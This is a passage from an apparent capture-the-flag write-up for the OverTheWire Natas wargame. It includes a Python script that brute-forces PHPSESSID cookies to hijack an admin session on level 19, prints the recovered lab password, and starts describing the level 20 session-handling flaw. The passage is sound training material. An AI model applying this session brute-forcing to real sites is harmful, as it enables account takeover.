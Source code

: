 ```py
        new_cookie.set(name="PHPSESSID", value=cookie_value, domain='natas19.natas.labs.overthewire.org', path="/")
        sess.cookies.update(new_cookie)
        
        response = sess.get('http://natas19.natas.labs.overthewire.org/index.php', auth=HTTPBasicAuth(auth_username, auth_password))
        try:
            response.text.index("are logged in as a regular")
            print(prefix + " 2d61646d696e" + " non admin account: regular user")
        except:
            try:
                response.text.index("Uninitialized string offset:")
                print(prefix + " 2d61646d696e" + " uninitialized")
            except:
                try:
                    response.text.index("login with your admin account to retrieve credentials for")
                    print(prefix + " 2d61646d696e" + " non admin account: homepage")
                except:
                    print(prefix + " 2d61646d696e" + " admin account ")
                    print(response.text)
                    break
```

The strings `non admin account: homepage` and `uninitialized` are from trial and error. Some IDs (like two digit IDs without any 3) give a `Uninitialized string offset:` while others give the normal homepage as `login with your admin account to retrieve credentials for`.

Finally, the password eofm3Wsshxc5bwtVnEuGIlr7ivb9KABF comes out on 323831-2d61646d696e.

# Level 20

## Vulnerable PHP variable connected to form input without escaping/parsing 

URL: http://natas20.natas.labs.overthewire.org/

[`session_set_save_handler()`](http://www.hackingwithphp.com/10/3/7/files-vs-databases)

1. `session_set_save_handler()` has custom functionality for storing data.

2. The name sent as the input form gets stored into the `$_SESSION["name"]`.

3. The variable `$name` gets set to the value of the session variable `$_SESSION["name"]`.

Open the link and type in a few usernames and press submit. Then open `http://natas20.natas.labs.overthewire.org/index.php?debug` to see the debug output.

4. `session_save_path()` (which returns the current working directory to store session data) returns `/var/lib/php5/sessions/`. The final filename is formed by appending `/mysess_$sid`. `$sid` is a kind of session ID to be targeted

The following function 
